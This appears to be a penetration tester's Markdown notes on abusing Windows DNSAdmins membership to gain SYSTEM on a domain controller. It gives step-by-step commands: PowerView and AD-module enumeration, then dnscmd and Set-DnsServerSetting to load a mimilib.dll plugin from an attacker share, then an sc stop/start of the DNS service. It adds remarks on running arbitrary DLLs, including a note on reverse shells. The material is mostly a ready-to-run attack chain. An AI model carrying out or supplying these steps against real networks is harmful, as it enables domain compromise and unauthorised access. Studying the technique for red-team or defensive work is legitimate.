

# DNSAdmins
dns.exe runs as SYSTEM.
Members of the DNSAdmins group can load arbitrary DLLs with the privileges of
dns.exe (i.e. SYSTEM)
However, to have our malicious DLLs run, we need the privileges to restart
dns.exe.
◇ By default, DNSAdmins don't have the privs to restart
dns.exe ◇ but you might get lucky
If DNS is running on the Domain Controller, we could priv-esc to SYSTEM on the Domain Controller.
## Exploit Process
1. Enumerate members of DNSAdmins group
2. Compromise a member of the DNSAdmins group
3. As member of DNSAdmins group, configure DLL using dnscmd.exe from RSAT DNS
4. Restart the dns.exe service (not enabled by default, but might get lucky)
# 1. Enumerate members of DNSAdmins group
# --------------------------------------------------
# PowerView
Get-NetGroupMember -GroupName "DNSAdmins"
# ActiveDirectory module
Get-ADGroupMember -Identity DNSAdmins
# 2. Compromise a member of the DNSAdmins group
# --------------------------------------------------
# --- NEED RSAT (remote administration) DNS TOOLS FOR THIS STAGE ---
# 3. As member of DNSAdmins group, configure DLL using dnscmd.exe from RSAT DNS
# - drop mimilib.dll into a share where domain controller can access it
# --------------------------------------------------
# with dnscmd - requires RSAT DNS
dnscmd <dc hostname> /config /serverlevelplugindll \\<attacker/share ip>\mimilib.dll
# with DNS module - requires RSAT DNS
$dnssettings = Get-DnsServerSetting -ComputerName <dc hostname> -Verbose -All
$dnssettings.ServerLevelPluginDll = "\\<attacker/share ip>\mimilib.dll"
Set-DnsServerSetting -InputObject $dnssettings -ComputerName <dc hostname> -Verbose
# --- MALICIOUS DLL WILL NOW BE SEEN IN REGISTRY ON DOMAIN CONTROLLER (see image below) ---
# 4. Restart the dns.exe service (not enabled by default, but might get lucky)
# --------------------------------------------------
sc \\<dc hostname> stop dns
sc \\<dc hostname> start dns
# --- With mimilib.dll - can now read all DNS queries at C:\Windows\System32\kiwidns.log ---
# --- OBVIOUSLY CAN WRITE YOUR OWN DLL THAT DOES WHATEVER, don't write reverse shells because DNS queries to the server will fail ---
You can obviously drop your own DLL (reverse shells are not good though, because dns.exe hangs and tries to run your reverse shell and all subsequent DNS requests to that server will fail)
